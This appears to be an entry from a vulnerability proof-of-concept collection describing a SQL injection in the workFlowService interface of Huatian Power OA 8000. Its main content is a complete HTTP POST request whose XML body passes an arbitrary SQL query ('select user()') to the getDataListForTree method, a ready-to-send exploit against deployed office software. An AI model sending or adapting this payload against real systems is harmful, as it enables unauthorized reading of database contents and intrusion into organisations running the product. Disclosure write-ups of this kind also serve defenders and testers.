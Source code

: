# Huatian Power OA 8000 version workFlowService SQL injection vulnerability

## Vulnerability Description

Huatian Power OA 8000 version workFlowService interface has SQL injection vulnerability, and attackers can obtain sensitive database information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Huatian Power OA 8000 Edition </span>

## Network surveying and mapping



## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628496676017-abce1043-e1a9-4142-9481-555f1bf0821c.png)

Send request packet verification vulnerability

```php
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 、
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628496737082-cede14dc-71ae-4ec3-83da-e0707e4f8f4f.png)
